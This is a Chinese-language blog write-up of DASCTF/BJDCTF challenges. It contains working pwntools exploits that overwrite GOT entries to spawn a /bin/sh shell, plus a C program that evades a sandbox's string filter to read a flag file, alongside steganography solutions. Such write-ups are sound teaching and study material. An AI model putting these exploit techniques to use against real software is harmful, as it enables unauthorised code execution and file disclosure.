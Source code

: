 ```yaml
---
title: DASCTF&第三届BJDCTF write up
date: 2020-05-24 22:21:16
tags: CTF
---
```

不愧是BJD，不愧是TaQini，我不配  <!--more-->
![](1.jpg)
# Pwn  
## TaQini OJ 0  
是个C语言编译器，没有复现环境我就直接写一下了  
首先提示需要打印出"Helloc TaQini"字符串，然后我就用printf打印出来了，然后他回显一个当前目录的tree，并且告诉了绝对路径  
然后尝试system("/bin/sh"),execve("/bin/sh",0,0)发现都被过滤了  
遂尝试orw，发现不能出现flag字符串，不然直接退出  
那就有点蛋疼了  
那我们不在输入C语言的时候用flag字符串，制造一个用户输入，在用户输入的时候输入flag路径  
就可以orw了  
exp  
```C++  
#include <stdio.h>
#include <stdlib.h>
#include <fcntl.h>
int main()
{
char a[32]={0};
char b[60]={0};

gets(a);
int fd=open(a,O_RDONLY);

read(fd,b,0x30);
write(1,b,0x30);

return 0;
}@
```  
随性而写，缩进？不存在的  
还有一个非预期是这样，两个OJ题都可以秒了  
![](feiyuqi.png)
艹？？？  
我？？？  
![](sbch.jpg)
## Memory Monster I  
分析一下，  
main里有个任意地址写  
开了canary  
![](2.png)
还有后门  
![](3.png)
直接把__stack_chk_fail@got改成后门函数就gg了  
exp：  
```python  
#!/usr/bin/env python
#coding=utf-8
from pwn import*
import sys
#context.log_level = 'debug'
context.update(arch='amd64',os='linux',timeout=1) 
context.terminal = ['terminator','-x','sh','-c']
binary = './baby_tcache' 
local = 1
if local == 1:
    p=process(binary)
else:
    p=remote("",)
elf=ELF(binary)
libc=elf.libc
def exp():
    p.recvuntil("addr:")
    p.send(p64(0x404028) + "\x00"*0x28)
    p.recvuntil("data:")
    p.send(p64(0x40124A))
    p.interactive()
exp()
```  
## Memory Monster II  
这题所有符号都没了，我吐了  
自己找main呗  
找了半天  
然后把里面的东西重命名了  
基本上和I是一样的  
![](4.png)
但是很难找got表了  
我找到got区，一个个试  
![](5.png)
然后发现__stack_chk_fail@got是0x4bb058，我们把这个改成main，（这里要注意，这个main要跳过setvbuf，不然程序会挂掉）就可以无限循环任意地址写了  
然后把puts的参数改成/bin/sh  
然后把puts@got改成system  
然后就gg  
exp：  
```python  
#!/usr/bin/env python
#coding=utf-8
from pwn import*
from LibcSearcher import *
import sys
context.log_level = 'debug'
context.terminal = ['terminator','-x','sh','-c']
binary = './Memory_Monster_II' 
local = 1
if local == 1:
    p=process(binary)
else:
    p=remote("",)
elf=ELF(binary)
libc=ELF('/lib/x86_64-linux-gnu/libc.so.6')

def exp():
    p.recvuntil("addr:")
    payload = p64(0x4bb058) + "\x00"*0x29
    p.send(payload)
    p.recvuntil("data:")
    p.send(p64(0x401c1d))
    p.recvuntil("addr:")
    payload = p64(0x4BB100) + "\x00"*0x29
    p.send(payload)
    p.recvuntil("data:")
    p.send("/bin/sh\x00")
    p.recvuntil("addr:")
    payload = p64(0x4bb0c0) + "\x00"*0x29
    p.send(payload)
    p.recvuntil("data:")
    p.send(p64(0x401d00))
    
    p.interactive()
exp()
```  
# Misc  
后边的pwn都不会了，被迫做misc  
问卷就简单说一下  
查看页面源代码，里面有所有问题的答案，直接填上，就可以出flag  
## /bin/cat 2  
开局一张图  
![](cat.gif)
下载下来，用stegsolve变变色  
然后长这样  
![](6.png)
然后拉伸缩放一下，扫码，出来个这个  
```  
m1ao~miao~mi@o~Mia0~m!aO~m1a0~~~
```  
md5加密一下就是flag  
## babyweb  
开局一个抖肩舞webp  
没什么用，我还以为里面有隐写  
有一个压缩包，下载下来发现要密码  
然后F12看一下，里面有个零宽字符隐写  
![](7.png)
怎么解密呢？  
google一下  
![](8.png)
然后就得到了压缩包的密码  
然后打开长这样    
![](9.png)
？？？？  
winhex打开，发现png文件头在末尾了  
![](10.png)
用python倒序一下  
```python  
f = open("f14g.png", "rb")
s = f.read()
f.close()
f = open("2.png", "wb")
f.write(s[::-1])
f.close()
```  
出来这么个玩意儿  
![](flag.png)
我？？？  
然后google识图，发现是四种字符  
alphabet minimoys  
标准银河字母  
跳舞小人  
宝可梦  
这里特别提醒！众所周知，百度是个垃圾玩意儿，识图识了个寂寞，啥也没有  
然后去找到里面对对应的字符，结合hint，把Q改成W  
然后md5加密一波  
gg  
</br>
最后一定要膜拜一波大师傅  
我愈发感觉自己不配打CTF了  
![](dashifu.png)